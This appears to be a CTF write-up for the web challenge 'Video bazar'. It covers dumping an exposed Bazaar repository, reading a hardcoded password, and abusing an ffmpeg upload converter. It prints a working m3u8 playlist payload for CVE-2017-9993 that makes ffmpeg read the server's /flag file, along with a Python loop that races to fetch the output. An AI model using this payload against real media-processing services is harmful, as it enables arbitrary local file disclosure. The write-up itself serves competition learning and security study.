

# Video bazar (web, 936p, 13 solved)

## Description

In the task we start with a webpage which asks us for some key.
We know that flag is in `/flag`

## Initial analysis

We spent some time trying to figure out how to get the key.
Finally we noticed the task name - maybe they are hinting at bazaar, a rather unpopular git-like VCS?
It was featured last week on another CTF, so it was easier to come by this.

Bingo, we get 403 and not 404 on `/.bzr`

We grab https://github.com/shpik-kr/bzr_dumper and proceed to dump the repository.

## Source code analysis

From the source code of `index.php` we get the password:

```php

<?php

if(isset($_GET['asd'])){
if($_GET['asd']==='THIS_IS_THE_NEW_WAY_TO_DO_STUFF'){
	$a=True;
}else{
	echo 'wroong';
}
}
?>
```

And we can access the file upload feature.
We also have the [uploader source code](upload_file.php).

The important points from this file are:

- We can upload only files with certain extensions `"avi", "mp4", "wma","m3u8"`
- We can convert those files using `ffmpeg` into `'avi','mp4','wav','gif'`
- Filename we provide is ignored and md5 from it is used, so no way to do some command injection
- There is some weird blacklist for the contents of the files we can upload, which is weird considering those are all binary files, except for the last one...
- `ffmpeg` is run with a special parameter `-allowed_extensions ALL`, which according to google is `a private option of the HLS demuxer`, so again playlists
- We have 0.5s to grab the result before it's removed

## ffmpeg CVEs

The fact that we can use playlist files `m3u8`, that there is blacklist for some plaintext values and also weird parameter `-allowed_extensions ALL` all point in one direction -> we need to upload a weird playlist!

We stumbled upon links like https://patchwork.ffmpeg.org/project/ffmpeg/patch/20170603192004.1437-1-michael@niedermayer.cc/ and finally we found CVE-2017-9993 and some articles:

- https://hackmd.io/@calee/Sy3NXynDZ?type=view
- https://www.cnblogs.com/alisecurity/p/7273529.html

From the last one we grab the payload:

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:1.0
GOD.txt
#EXTINF:1.0
/flag
#EXT-X-ENDLIST
```

Apparently the trick is that `ffmpeg` notices the `.txt` and thinks all next entries will be textfiles as well, regardless of their extensions.

We submit a request to convert this into a gif, while runing a script:

```python
def main():
    while True:
        r = requests.get("http://35.211.92.233:8001/upload/output1_624e9e5c339b8f5751b84303f9389fb1.m3u8.gif")
        if r.status_code != 404:
            print(r.status_code)
            print(r.content.encode("hex"))
            open('out.gif', 'wb').write(r.content)
```

And we recover our gif:


